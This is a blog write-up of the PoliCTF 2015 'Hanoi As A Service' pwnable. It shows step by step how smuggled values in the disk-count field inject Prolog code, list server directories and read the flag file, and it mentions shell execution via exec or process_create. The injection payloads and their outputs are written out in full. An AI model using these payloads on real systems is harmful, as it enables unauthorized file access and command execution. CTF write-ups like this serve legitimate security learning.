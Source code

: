 ```yaml
---
layout: post
title: "Hanoi As A Service, Pwnable 50"
date: 2015-07-12
ctf: PoliCTF 2015
author: Abstract
---
```


## Hanoi As A Service, Pwnable 50

One of the easiest challenges of PoliCTF 2015 and the first we solved. The challenge's description pointed us to "haas.polictf.it 80". Netcating in we found a Tower of Hanoi server:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
{% endhighlight %}


Can we get an error? Let's try '-1':

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Ah! Prolog, I knew there was a point to studying it back in college. Can we inject some code?

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),write('hello world'
* Move top disk from a to b
hello world
{% endhighlight %}

So we can inject commands.  Next we googled for any and all Prolog commands that might be useful. '1),listing,write(\'hello\'' displays the entire prolog database, but there is nothing really useful there. Instead we can have a look at the files using: '1),directory_files(<dir>,X),write(X', until we find the flag:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),directory_files('home/ctf/haas',X),write(X
* Move top disk from a to b
[haas-proxy.py,..,jhknsjdfhef_flag_here,haas,.]
{% endhighlight %}

Now we know were the flag is we can print off the ascii: 

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),open('/home/ctf/haas/jhknsjdfhef_flag_here',read,Str),read_line_to_codes(Str,X),write(X
* Move top disk from a to b
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
{% endhighlight %}

which https://paulschou.com/tools/xlate/ tell us encodes: 'flag{Pr0gramm1ng_in_l0g1c_1s_c00l}'.

Executing shell commands or even opening a shell would have been possible with Prologs 'exec' or 'process_create' commands, but that seemed like overkill in this situation.


